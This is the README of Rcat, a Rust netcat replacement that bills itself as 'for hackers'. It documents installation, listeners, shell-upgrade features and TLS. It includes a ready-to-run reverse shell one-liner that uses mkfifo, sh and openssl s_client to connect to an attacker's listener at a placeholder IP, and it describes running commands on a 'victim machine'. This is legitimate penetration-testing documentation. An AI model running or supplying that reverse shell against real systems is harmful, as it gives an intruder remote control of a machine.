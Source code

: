 <div align="center">

# Rcat
### A better netcat for hackers

</div>

### Overview

__Rcat__ is a modern _netcat_ written in Rust, packed with features for hackers.

<img src="images/rcat_curl.svg">

Here we listen on port `tcp:9001`, and receive an HTTP request made with `curl`.

### Install
#### Static binaries

We provide binaries for:
* [Linux amd64](https://github.com/0xfalafel/rcat/releases/latest/download/rcat_amd64)
* [Linux arm64](https://github.com/0xfalafel/rcat/releases/latest/download/rcat_arm64)
* [Windows](https://github.com/0xfalafel/rcat/releases/latest/download/rcat.exe) (amd64)
* [Mac OS](https://github.com/0xfalafel/rcat/releases/latest/download/rcat_macos) (arm64)

#### Build from source

```bash
git clone git@github.com:0xfalafel/rcat.git
cargo install --path .
```

### Features

#### Familiar syntax

Rcat keeps a syntax similar to _netcat_. You already know how to use it.

* `-l` to listen.
* `-u` for udp.

#### Shell Upgrade

Rcat can __upgrade your shells__ with the `--pwn` option.  
With an upgraded shell, you can use shortcuts like `Ctrl + C`, clear the terminal with `clear` or `Ctrl + L`, etc. It's like having an SSH connection.
There is no need to [type 7 commands](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) each time you obtain a reverse shell.

<img src="images/rcat_pwn.svg">

> Here the commands `stty rows 22 cols 65` and `export TERM=xterm-256colors` are typed automatically when the connection is received.

#### Shell Upgrade Windows

Windows is also supported by the shell upgrade feature.

<img src="images/rcat_win.svg">

#### Resize

Unless you use the `-R` option, the remote terminal will automatically be resized when you change the size of your terminal.  
> (Rcat sends a _SIGTSTP_, resizes the terminal with the `stty` command then uses `fg` to restore the application running.)

<img src="images/rcat_resize.webp">

> In this clip we run `htop` on the victim machine, and the reverse shell is automatically resized.

#### TLS support

Support of __TLS__ with `-t` or `--tls`.  
Here we do an HTTPS request. We use `-t` to establish a _TLS connection_, and `-c` to replace newlines (`\n`) with _CRLF_ newlines (`\r\n`) as required by the HTTP protocol.

<img src="images/rcat_tls.svg">

  
## Encrypted Reverse shell

With TLS support, let's see how we can do an __TLS encrypted reverse shell__. Without installing any new tools on the victim.

If you have a signed certificate (with [let's encrypt](https://certbot.eff.org/instructions) for example), you can use the `--key` and `--cert` options to use it.

### TLS listener

But for now let's use a self-signed certificate:

```bash
> rcat -l 1337 --self-signed --pwn
Listening on 0.0.0.0:1337 (tcp/tls) with a self-signed certificate
```

### Reverse Shell

On a __linux__ target, you can use the following command to __connect to your listener__.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| openssl s_client -connect YOUR_IP:1337 >/tmp/f
```

## Acknowledgment

The _shell upgrade_ feature for _windows_ is taken from the [ConPtyShell](https://github.com/antonioCoco/ConPtyShell/) project.
